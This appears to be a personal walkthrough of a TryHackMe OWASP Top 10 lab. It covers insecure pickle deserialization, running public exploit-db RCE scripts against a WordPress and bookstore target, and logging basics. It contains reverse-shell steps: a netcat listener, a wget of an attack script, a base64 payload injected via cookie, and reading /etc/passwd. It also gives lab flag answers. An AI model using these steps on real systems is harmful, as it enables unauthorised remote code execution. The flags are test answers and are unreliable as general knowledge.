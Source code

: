 ```
cookie = request.cookies.get("encodedPayload")
cookie = pickle.loads(base64.b64decode(cookie))
```

 First, we need to set up a netcat listener on our Kali.
 - ` nc -lvnp 4444 `
 - Because the code being deserialized is from a base64 format, we cannot just simply spawn a reverse shell. We must encode our own commands in base64 so that the malicious code will be executed.
 - ` wget https://assets.tryhackme.com/additional/cmn-owasptopten/pickleme.py `
 - `touch rce.py ` > open `pickleme.py` , copy and paste content from `pickleme.py` to `rce.py`  and add AttackBox IP address > `python3 rce.py`
 - copy everything between the ' '
 - paste in the 'encodedPayload' cookie in browser > refresh page > look at tab where listener is running
 - if done correctly `whoami` = `cmatic` and ls lists files
 - look for `flag.txt` 
 -  ` 4a69a7ff9fd68 `



## Known Vulnerabilities

let's say that a company hasn't updated their version of WordPress for a few years, and using a tool such as wpscan, you find that it's version 4.6. Some quick research will reveal that WordPress 4.6 is vulnerable to an unauthenticated remote code execution(RCE) exploit, and even better you can find an exploit already made on [exploit-db](https://www.exploit-db.com/exploits/41962).

- `python 47837.py x.x.x.x 80 id` id is for input

  
How many characters are in `/etc/passwd` (use `wc -c /etc/passwd` to get the answer)
- hint= You know its a bookstore application, you should check for recent unauthenticated bookstore app rce's.
- search `unauthenticated bookstore app rce` > download `47887.py`  
- `python3 47887.py http://x.x.x.x` > `RCE $`
- `wc -c /etc/passwd` > 1611



## Insufficient logging & monitoring

Without logging, there would be no way to tell what actions an attacker performed if they gain access to particular web applications.

- regulatory damage: if an attacker has gained access to personally identifiable user information and there is no record of this, not only are users of the application affected, but the application owners may be subject to fines or more severe actions depending on regulations.

- risk of further attacks: without logging, the presence of an attacker may be undetected. This could allow an attacker to launch further attacks against web application owners by stealing credentials, attacking infrastructure and more.

logs
```
- HTTP status codes
- Time Stamps
- Usernames
- API endpoints/page locations
- IP addresses
```
